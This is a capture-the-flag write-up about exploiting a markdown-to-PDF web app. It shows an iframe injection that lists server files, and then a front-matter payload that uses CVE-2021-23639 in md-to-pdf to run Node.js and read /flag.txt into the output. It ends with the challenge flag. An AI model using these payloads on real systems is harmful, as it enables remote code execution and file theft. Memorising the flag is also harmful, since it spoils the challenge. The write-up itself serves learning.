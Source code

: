 # My little website

## Challenge

```txt
I am new to programming and made this simple pdf creater website here, hopefully it is secure enough :)...
```

## Walkthrough

We're given a webapp that takes markdown input and converts it to a PDF. First thing I tried was writing some HTML code to list files in the directory.

```md
<iframe src="/" height=600 width=700></iframe>
```

![ls.png](ls.png)

That worked pretty well! From here I leaked files from the server that I found interesting such as `package-lock.json`, `index.js` and the `patches` folder.

package-lock.json

```json
...
"packages": {
    "": {
        "name": "pdf_thingy",
        "version": "1.0.0",
        "license": "ISC",
        "dependencies": {
            "express": "4.18.1",
            "md-to-pdf": "4.0.0",
            "patch-package": "^6.4.7"
        }
    },
...
```

patches/

```diff
diff --git a/node_modules/md-to-pdf/dist/lib/config.js b/node_modules/md-to-pdf/dist/lib/config.js
index bf571bd..e24db15 100644
--- a/node_modules/md-to-pdf/dist/lib/config.js
+++ b/node_modules/md-to-pdf/dist/lib/config.js
@@ -21,7 +21,7 @@ exports.defaultConfig = {
 left: '20mm',
 },
 },
- launch_options: {},
+ launch_options: {args: ["--no-sandbox"]},
 md_file_encoding: 'utf-8',
 stylesheet_encoding: 'utf-8',
 as_html: false,
```

index.js

```js
// ...
const { mdToPdf } = require('md-to-pdf')

app.post('/submit', async (req, res) => {
    const md_string = req.body.md_data
    const pdf = await mdToPdf({ content: md_string, langugage: 'javascript' }).catch(console.error);
// ...
```

The author was using an outdated version of `md-to-pdf` and given that the `--no-sandbox` argument was being passed it was pretty clear that this was the library I'd have to exploit. I found [CVE-2021-23639](https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880), an RCE exploit that affected `md-to-pdf` < 5.0.0.

> Affected versions of this package are vulnerable to Remote Code Execution (RCE) due to utilizing the library gray-matter to parse front matter content, without disabling the JS engine.

Modifying the POC slightly I was able to execute nodejs and read the flag into the PDF file.

```md
---js
{
    css: `body::before { content: "${require('fs').readFileSync('/flag.txt').join()}"; display: block }`,
}
---
```

## Solve

`CTF{pdf_c0nt1nu3s_70_5uCK}`
